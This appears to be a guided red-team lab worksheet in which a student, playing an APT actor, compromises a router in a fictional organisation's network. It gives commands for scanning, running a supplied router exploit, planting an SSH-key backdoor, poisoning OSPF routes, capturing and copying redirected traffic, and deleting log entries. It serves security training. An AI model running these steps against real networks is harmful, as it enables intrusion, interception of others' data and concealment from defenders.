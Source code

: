 # The Indirect Intercept

Objective: Act as an APT actor (`APT-47`) to compromise a network router, manipulate routing to redirect traffic, and intercept unencrypted sensitive data. Document your findings at each step.

Scenario: [OpenHands International](entity.md) uses a dynamic routing protocol to connect its HQ and remote offices. Your goal is to perform a Machine-in-the-Middle (MitM) attack by hijacking this traffic flow.

## Phase 1: Reconnaissance & Mapping

Goal: Discover the network topology and identify key targets.

Instructions:

1.  Access Your Foothold:
    *   SSH into your assigned low-privilege user account on the workstation VM.
    *   Command: `ssh volunteer@<workstation_ip>`
    *   Password: `[Provided by Lab Instructor]`

2.  Map the Local Network:
    *   Find your own IP address and the default gateway.
    *   Command: `ip addr show` and `ip route show default`
    *   Your IP: `[DISCOVER THIS]`
    *   Default Gateway: `[DISCOVER THIS]` - This is your first key target. Note it as `TARGET_ROUTER`.

3.  Discover Live Hosts:
    *   Perform a stealthy ping sweep of your local subnet to find other devices.
    *   Command: `nmap -sn -T4 <your_subnet>/24` (e.g., if your IP is `192.168.1.10`, the subnet is `192.168.1.0/24`)
    *   Finding: List 3 active IP addresses you discover, excluding yourself and the gateway.

4.  Probe for Services:
    *   Perform a port scan on the `TARGET_ROUTER` to identify running services. Focus on finding the routing protocol port.
    *   Command: `nmap -sS -p- -T4 <TARGET_ROUTER_IP>`
    *   Critical Finding: What port is open that is commonly associated with a routing protocol? (e.g., `2601/tcp`, `2604/tcp`, `179/tcp`).
    *   Service: `[DISCOVER THIS]`

5.  Confirm Routing Protocol:
    *   Use a packet sniffer to listen for multicast packets that reveal the routing protocol in use.
    *   Command: `sudo tcpdump -i any -n host 224.0.0.5 or host 224.0.0.6 -c 5`
    *   Finding: What is the name of the routing protocol you observed? (e.g., OSPF, EIGRP).
    *   Protocol: `[DISCOVER THIS]`

Checkpoint: You have now identified the local router and the dynamic routing protocol it uses. Proceed to the next phase.

## Phase 2: Gaining Control of the Router

Goal: Exploit a vulnerability on the router to gain privileged access.

Instructions:

1.  Research the Target:
    *   From your workstation, try to identify the make and model of the `TARGET_ROUTER`.
    *   Command: `nmap -sV -p <routing_port> <TARGET_ROUTER_IP>`
    *   Finding: What software and version is running the routing service? (e.g., `FRRouting 8.1`, `Bird 2.0.7`).
    *   Version: `[DISCOVER THIS]`

2.  Locate the Exploit:
    *   Your lab instructor has provided a directory of proof-of-concept (PoC) exploits. Navigate to it.
    *   Command: `cd /opt/pocs/`
    *   Find the exploit script that matches the software version you discovered.
    *   Exploit Script: `[DISCOVER THIS]` (e.g., `router_rce_cve_2023_xxxx.py`)

3.  Execute the Exploit:
    *   Run the exploit script against the `TARGET_ROUTER` to gain a remote shell.
    *   Command: `python3 <exploit_script_name.py> <TARGET_ROUTER_IP>`
    *   Success: Your terminal should now show a command prompt for the router (e.g., `vyos@router:~$`).

4.  Secure Your Access (Persistence):
    *   You have a shell, but it might be unstable. Establish reliable backdoor access via SSH.
    *   Action: Append your public SSH key to the router's `authorized_keys` file.
    *   Command: `echo "ssh-rsa AAAAB3NzaC1yc2E... student@workstation" >> /home/vyos/.ssh/authorized_keys`
    *   Verify: Exit the shell and SSH back into the router directly using your key.
    *   Command: `ssh vyos@<TARGET_ROUTER_IP>`

Checkpoint: You now have persistent, privileged access to the network router. You are now in control of a critical network device.

## Phase 3: Traffic Redirection via Route Manipulation

Goal: Abuse your control of the router to redirect traffic for interception.

Instructions:

1.  Analyse the Current Routing Topology:
    *   On the compromised router, view the routing table and the routing protocol's database.
    *   Commands: `show ip route` and `show ip ospf database` (or equivalent for the protocol you found).
    *   Finding: What is the network prefix of the REMOTE_OFFICE subnet? (e.g., `192.168.5.0/24`).
    *   REMOTE_NET: `[DISCOVER THIS]`

2.  Identify the Path:
    *   Note the current path and cost (metric) for the route to `REMOTE_NET`.

3.  Advertise a Fraudulent Route:
    *   Configure the router to advertise a fake, more attractive route to the `REMOTE_NET`.
    *   This requires entering configuration mode on your router platform.
*   Example Commands (VyOS/FRR):

```bash
configure terminal
router ospf
redistribute static metric-type 1 metric 10
exit
ip route <REMOTE_NET> <null_interface_or_fake_next_hop> # This creates a static route that will be redistributed
commit
save
exit
```

  *   This tells other routers: "Send all traffic for `REMOTE_NET` to me, and I can get there with a fantastic metric of 10."

4.  Verify the Attack Worked:
    *   Wait 60 seconds for the routing protocol to converge.
    *   From your original workstation, trace the route to a host in the `REMOTE_NET`.
    *   Command: `traceroute <IP_ADDRESS_IN_REMOTE_NET>`
    *   Finding: Is the first hop your `TARGET_ROUTER`? (It should be).
    *   Result: `[YES/NO]`

Checkpoint: You have successfully poisoned the routing table. All traffic from your segment to the remote office now flows through your compromised router.

## Phase 4: Interception and Exfiltration

Goal: Capture unencrypted traffic containing simulated sensitive data.

Instructions:

1.  Sniff the Redirected Traffic:
    *   On the compromised router, start a packet capture on the interface facing the HQ LAN.
    *   Command: `sudo tcpdump -i eth0 -w captured_traffic.pcap host <IP_ADDRESS_IN_REMOTE_NET>`
    *   Let this run for 5 minutes to capture traffic.

2.  Trigger Data Generation (Optional):
    *   Inform your lab instructor. They may run a script that generates simulated unencrypted HTTP traffic containing "sensitive" dummy data (e.g., volunteer records) from HQ to the remote office.

3.  Analyse the Capture:
    *   Transfer the `.pcap` file to your workstation for analysis with Wireshark.
    *   Command (from your workstation): `scp vyos@<TARGET_ROUTER_IP>:captured_traffic.pcap .`
    *   Open the file in Wireshark: `wireshark captured_traffic.pcap`
    *   Finding: Apply a filter for `http`. Can you find any HTTP POST requests? If so, examine the packet details to find the simulated exfiltrated data.
    *   Exfiltrated Data: `[COPY THE DUMMY DATA STRING YOU FIND]`

Checkpoint: You have successfully intercepted and exfiltrated sensitive data by manipulating network infrastructure.

## Phase 5: Covering Tracks (Optional Bonus)

Goal: Remove evidence of your presence on the router.

Instructions:

1.  Remove the Fraudulent Route: Log back into the router and remove the static redistribution configuration.
2.  Remove Persistence: Delete your public key from the `authorized_keys` file.
3.  Clear Logs: Find the router's log file (e.g., `/var/log/messages`) and remove any entries containing your workstation's IP address. Note: This is often difficult to do completely on network devices.

Final Report: Document all the `[DISCOVER THIS]` fields and write a short paragraph explaining the impact of this attack on a real organisation like OpenHands International.
